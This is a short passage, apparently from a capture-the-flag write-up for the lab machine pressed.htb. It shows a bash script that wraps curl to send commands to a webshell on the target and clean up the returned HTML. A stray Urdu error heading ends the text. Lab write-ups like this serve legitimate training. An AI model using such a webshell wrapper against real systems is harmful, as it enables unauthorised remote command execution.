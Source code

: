 ![](/img/image-20220201083215460.png)

### Script

I want a script to more easily interact with the webshell, so I'll write
a quick curl command and wrap that into a `bash` script to run easily:



    #!/bin/bash

    curl -d "cmd=$1" -s 'http://pressed.htb/index.php/2022/01/28/hello-world/' |
            awk '/<\/table>/{flag=1;next}/<p><\/p>/{flag=0}flag' |
            sed 's/&#8211;/--/g' | sed 's/&#8212;/---/g' |
            head -n -3



Here's the [process for making
that](https://www.youtube.com/watch?v=WmQFRNphbps):


# ایک خرابی پیش آ گئی۔ {#ایک-خرابی-پیش-آ-گئی .message}
